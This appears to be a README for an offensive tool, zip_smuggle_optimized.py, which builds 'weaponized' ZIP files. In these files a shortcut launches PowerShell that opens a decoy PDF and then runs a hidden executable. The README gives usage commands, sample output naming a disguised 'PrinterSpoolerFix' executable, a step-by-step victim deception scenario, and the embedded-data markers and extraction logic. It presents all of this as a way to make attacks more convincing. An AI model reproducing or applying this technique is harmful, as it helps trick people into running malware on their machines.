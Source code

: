 # PDF Decoy Feature Demo

The enhanced `zip_smuggle_optimized.py` script now supports embedding a decoy PDF that opens before the executable runs. This makes the attack more convincing by showing legitimate-looking content first.

## How It Works

1. **PDF Embedding**: The PDF is embedded in the ZIP file BEFORE the executable
2. **Automatic Detection**: The PowerShell script searches for the PDF header (`%PDF-`)
3. **Sequential Execution**: 
   - First, the PDF is extracted and opened
   - After a 2-second delay, the executable runs
   - This creates a more believable scenario

## Usage Examples

### Basic Usage (no PDF)
```bash
python zip_smuggle_optimized.py testarch ChromeUpdate.exe 4
```

### With PDF Decoy
```bash
# Format: script <name> <exe> <level> <pdf>
python zip_smuggle_optimized.py report ChromeUpdate.exe 4 decoy.pdf

# Or: script <name> <exe> <pdf> <level>
python zip_smuggle_optimized.py report ChromeUpdate.exe decoy.pdf 4
```

## Creating a Test PDF

Use the provided script to create a test PDF:
```bash
python create_test_pdf.py
```

This creates `test_decoy.pdf` with fake company report content.

## Full Example

```bash
# 1. Create a test PDF
python create_test_pdf.py

# 2. Create the weaponized ZIP with PDF decoy
python zip_smuggle_optimized.py quarterly_report notepad.exe 4 test_decoy.pdf

# Output:
# payloadname: quarterly_report
# file to smuggle: notepad.exe
# Generated output exe name: PrinterSpoolerFix20250610104320.exe
# Obfuscation level: 4
# Decoy PDF: test_decoy.pdf (623 bytes)
# PDF filename: test_decoy.pdf
# ...
# Embedding PDF: test_decoy.pdf (623 bytes)
# Embedding EXE: notepad.exe (193536 bytes)
# ...
# [+] Done. File saved at quarterly_report.zip
# 📄 PDF decoy will open first when the payload is executed
# ✅ Used optimized version - should execute much faster!
```

## Attack Scenario

1. **Victim receives**: `quarterly_report.zip`
2. **Victim opens ZIP**: Sees `quarterly_report.lnk` (looks like a shortcut to a document)
3. **Victim clicks LNK**: 
   - PDF opens showing "Q4 2024 Financial Results"
   - 2 seconds later, malware executes in background
4. **Victim thinks**: They just opened a legitimate report

## Technical Details

### Embedded Data Structure
```
[ZIP Header]
[ZIP Content (LNK file)]
[PDF Data (%PDF-...%%EOF)]     <- First embedded data
[EXE Data (0x55555555 + exe)]  <- Second embedded data
[ZIP Central Directory]
[ZIP End of Central Directory]
```

### PowerShell Extraction Logic
- Searches for `0x50 0x44 0x46 0x2D` (PDF header)
- Extracts exact PDF size bytes
- Searches for `0x55 0x55 0x55 0x55` (EXE marker)
- Extracts EXE after marker

## Security Considerations

- The PDF provides social engineering cover
- Delay allows PDF reader to fully load
- Both files execute from %TEMP%
- Original ZIP appears unmodified

## Performance Note

With obfuscation level 4:
- No recursive file search
- Optimized byte pattern matching
- Executes in 1-2 seconds (vs 30+ seconds)
